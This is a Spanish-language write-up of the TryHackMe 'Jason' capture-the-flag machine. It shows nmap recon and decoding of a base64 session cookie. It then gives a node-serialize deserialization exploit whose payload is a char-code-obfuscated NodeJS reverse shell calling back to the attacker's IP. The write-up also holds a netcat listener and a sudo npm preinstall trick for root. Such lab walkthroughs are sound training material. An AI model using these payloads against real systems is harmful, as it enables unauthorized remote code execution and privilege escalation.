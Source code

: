 ```yaml
---
title : "Jason - Write Up"
date : 2021-10-12T20:02:42+02:00
author : "Lanfran02"
cover : "cover.png"
useRelativeCover : true
description : "Máquina de nivel fácil en TryHackMe."
tags : ["NodeJS","Deserialization","sudo","nc","TryHackMe"]
---
```


| Link | Nivel | Creador |
|------|-------|---------|
| [Aquí](https://tryhackme.com/room/jason)  | Fácil  |  [elbee](https://tryhackme.com/p/elbee)  |


## Reconocimiento

Comenzando como en cada CTF, corremos `nmap` contra la máquina.

```bash
╰─ lanfran@parrot ❯ sudo nmap 10.10.237.12 -p- -sS --min-rate 5000 -n -Pn                                                          ─╯
[sudo] password for lanfran: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-12 20:11 CEST
Nmap scan report for 10.10.237.12
Host is up (0.25s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 23.81 seconds
```
¡Bien! ¡Encontramos un servidor web ejecutándose en el puerto `80`!

¡Vayamos directamente a el!

![email](email.png)

Es solo una página creada en `NodeJS` que nos muestra el correo electrónico que usamos.

Pero... ¡Tenemos una cookie de sesión!

![cookies](cookies.png)

Tal vez podamos decodificarla para ver qué tiene dentro... 

```bash
╰─ lanfran@parrot ❯ echo "eyJlbWFpbCI6ImFkbWluQGVtYWlsLmNvbSJ9" | base64 -d                                                        ─╯
{"email":"admin@mail.com"}% 
```

¡¡¡Excelente!!! ¡Sabemos que esta cookie almacena el correo electrónico que usamos como entrada!

## Acceso inicial - Usuario

Buscando en Google algún exploit de deserialización para NodeJS, encontré [este sitio](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)donde explican el exploit muy bien!

En resumen, necesitaremos crear un codigo para obtener una shell reversa en NodeJS, serializarlo y codificarlo en base64 para usarlo como nuestra cookie de sesión.

[Aquí está el archivo para crear el código para la shell reversa en NodeJS](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)

Y después de obtener el código, puede usar la [online node-serialize](https://npm.runkit.com/node-serialize) librería para serializar su payload! [Aquí](https://runkit.com/embed/g49fa5tg1ozl) es una plantilla sobre cómo debería ser su código.

¡También te dejo el código a continuación!

```js
var y = {"email": function(){eval(String.fromCharCode(your_payload))}};

var serialize = require('node-serialize');
var serialezd = serialize.serialize(y);
console.log(serialezd)
```

Después de eso, no olvides agregar el último () al final del payload, como te explican en [esta publicación](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)
![explain](last_\(\).png)

Su código serializado debería verse similar a esto:
```js
{"email":"_$$ND_FUNC$$_function email() {\n          eval(String.fromCharCode(10, 118, 97, 114, 32, 110, 101, 116, 32, 61, 32, 114, 101, 113, 117, 105, 114, 101, 40, 39, 110, 101, 116, 39, 41, 59, 10, 118, 97, 114, 32, 115, 112, 97, 119, 110, 32, 61, 32, 114, 101, 113, 117, 105, 114, 101, 40, 39, 99, 104, 105, 108, 100, 95, 112, 114, 111, 99, 101, 115, 115, 39, 41, 46, 115, 112, 97, 119, 110, 59, 10, 72, 79, 83, 84, 61, 34, 49, 48, 46, 57, 46, 52, 46, 49, 49, 55, 34, 59, 10, 80, 79, 82, 84, 61, 34, 49, 51, 51, 55, 34, 59, 10, 84, 73, 77, 69, 79, 85, 84, 61, 34, 53, 48, 48, 48, 34, 59, 10, 105, 102, 32, 40, 116, 121, 112, 101, 111, 102, 32, 83, 116, 114, 105, 110, 103, 46, 112, 114, 111, 116, 111, 116, 121, 112, 101, 46, 99, 111, 110, 116, 97, 105, 110, 115, 32, 61, 61, 61, 32, 39, 117, 110, 100, 101, 102, 105, 110, 101, 100, 39, 41, 32, 123, 32, 83, 116, 114, 105, 110, 103, 46, 112, 114, 111, 116, 111, 116, 121, 112, 101, 46, 99, 111, 110, 116, 97, 105, 110, 115, 32, 61, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 105, 116, 41, 32, 123, 32, 114, 101, 116, 117, 114, 110, 32, 116, 104, 105, 115, 46, 105, 110, 100, 101, 120, 79, 102, 40, 105, 116, 41, 32, 33, 61, 32, 45, 49, 59, 32, 125, 59, 32, 125, 10, 102, 117, 110, 99, 116, 105, 111, 110, 32, 99, 40, 72, 79, 83, 84, 44, 80, 79, 82, 84, 41, 32, 123, 10, 32, 32, 32, 32, 118, 97, 114, 32, 99, 108, 105, 101, 110, 116, 32, 61, 32, 110, 101, 119, 32, 110, 101, 116, 46, 83, 111, 99, 107, 101, 116, 40, 41, 59, 10, 32, 32, 32, 32, 99, 108, 105, 101, 110, 116, 46, 99, 111, 110, 110, 101, 99, 116, 40, 80, 79, 82, 84, 44, 32, 72, 79, 83, 84, 44, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 41, 32, 123, 10, 32, 32, 32, 32, 32, 32, 32, 32, 118, 97, 114, 32, 115, 104, 32, 61, 32, 115, 112, 97, 119, 110, 40, 39, 47, 98, 105, 110, 47, 115, 104, 39, 44, 91, 93, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 99, 108, 105, 101, 110, 116, 46, 119, 114, 105, 116, 101, 40, 34, 67, 111, 110, 110, 101, 99, 116, 101, 100, 33, 92, 110, 34, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 99, 108, 105, 101, 110, 116, 46, 112, 105, 112, 101, 40, 115, 104, 46, 115, 116, 100, 105, 110, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 115, 104, 46, 115, 116, 100, 111, 117, 116, 46, 112, 105, 112, 101, 40, 99, 108, 105, 101, 110, 116, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 115, 104, 46, 115, 116, 100, 101, 114, 114, 46, 112, 105, 112, 101, 40, 99, 108, 105, 101, 110, 116, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 115, 104, 46, 111, 110, 40, 39, 101, 120, 105, 116, 39, 44, 102, 117, 110, 99, 116, 105, 111, 110, 40, 99, 111, 100, 101, 44, 115, 105, 103, 110, 97, 108, 41, 123, 10, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 99, 108, 105, 101, 110, 116, 46, 101, 110, 100, 40, 34, 68, 105, 115, 99, 111, 110, 110, 101, 99, 116, 101, 100, 33, 92, 110, 34, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 125, 41, 59, 10, 32, 32, 32, 32, 125, 41, 59, 10, 32, 32, 32, 32, 99, 108, 105, 101, 110, 116, 46, 111, 110, 40, 39, 101, 114, 114, 111, 114, 39, 44, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 101, 41, 32, 123, 10, 32, 32, 32, 32, 32, 32, 32, 32, 115, 101, 116, 84, 105, 109, 101, 111, 117, 116, 40, 99, 40, 72, 79, 83, 84, 44, 80, 79, 82, 84, 41, 44, 32, 84, 73, 77, 69, 79, 85, 84, 41, 59, 10, 32, 32, 32, 32, 125, 41, 59, 10, 125, 10, 99, 40, 72, 79, 83, 84, 44, 80, 79, 82, 84, 41, 59, 10));\n        }()"}
```
_No olvides el último () !!!! De lo contrario, el payload no funcionará._

Después de eso, ¡codifíquelo en base64 y utilícelo como una cookie!

Actualizando la página, _mientras escuchamos en el puerto deseado_, ¡ahora deberíamos tener una shell reversa como `Dylan`!

```bash
╰─ lanfran@parrot ❯ nc -nlvp 1337                                                                                                  ─╯
listening on [any] 1337 ...
connect to [10.9.4.117] from (UNKNOWN) [10.10.237.12] 43016
Connected!
id
uid=1000(dylan) gid=1000(dylan) groups=1000(dylan)
cat /home/dylan/user.txt
0[REDACTED]c

```
## Root

¡Excelente! ¡Escalemos a root!

¡Un reconocimiento normal nos da información útil!

```bash
dylan@jason:~$ sudo -l
Matching Defaults entries for dylan on jason:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dylan may run the following commands on jason:
    (ALL) NOPASSWD: /usr/bin/npm *
```

¡Nuestro usuario puede ejecutar `npm` como` root`!

Usando [GTFOBins](https://gtfobins.github.io/gtfobins/npm/) podemos escalar fácilmente a root!

```bash 
dylan@jason:~$ TF=$(mktemp -d)
dylan@jason:~$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
dylan@jason:~$ sudo npm -C $TF --unsafe-perm i

> @ preinstall /tmp/tmp.mskP1rW5qW
> /bin/sh

# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
2[REDACTED]e
```

¡Y hemos rooteado la máquina!

Eso es todo de mi parte, ¡espero que lo encuentre útil!